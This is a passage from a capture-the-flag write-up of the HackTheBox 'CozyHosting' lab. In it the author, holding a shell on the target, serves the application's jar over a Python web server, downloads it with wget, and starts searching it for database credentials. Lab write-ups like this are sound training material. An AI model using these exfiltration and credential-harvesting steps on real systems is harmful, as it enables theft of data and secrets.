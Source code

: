 Location: http://cozyhosting.htb [following]

--2024-02-29 09:56:43-- http://cozyhosting.htb/

Resolving cozyhosting.htb (cozyhosting.htb)... 10.10.11.230

Reusing existing connection to 10.10.11.230:80.

HTTP request sent, awaiting response... 200

Length: unspecified [text/html]

Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.jar [ <=> ] 12.41K --.-KB/s in 0.08s

2024-02-29 09:56:43 (150 KB/s) - ‘cloudhosting-0.0.1.jar’ saved [12706]

Plain text

Unsure what to do with `.jar`. Taking a hint, I learned I need `jd-gui` to view jar files better. Unfortunately, `jd-gui` is not working, the `.jar` file does not open in this app. When I `cat` the file it shows the HTML for the home page

It turns out that my syntax for `wget` was incorrect and I forgot to start a web server on the remote host.

Creating a web server from the remote host on port 9882:

app@cozyhosting:/app$ python3 -m http.server 9882

python3 -m http.server 9882

10.10.14.83 - - [29/Feb/2024 18:14:01] "GET /cloudhosting-0.0.1.jar HTTP/1.1" 200 -

Plain text

Grabbing the file from my local host using wget:

-[Thu Feb 29-10:13:56]-[table@parrot]-

-[~]$ wget 10.10.11.230:9882/cloudhosting-0.0.1.jar

--2024-02-29 10:14:02-- http://10.10.11.230:9882/cloudhosting-0.0.1.jar

Connecting to 10.10.11.230:9882... connected.

HTTP request sent, awaiting response... 200 OK

Length: 60259688 (57M) [application/java-archive]

Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.jar 100%[=====================================================>] 57.47M 17.4MB/s in 3.5s

2024-02-29 10:14:06 (16.6 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]

Now that I have the .jar file, I can unzip it and read the contents. Inside the .jar extract, we find a file containing postgres credentials:

-[Thu Feb 29-10:16:55]-[table@parrot]-

-[~/BOOT-INF/classes]$ cat application.properties

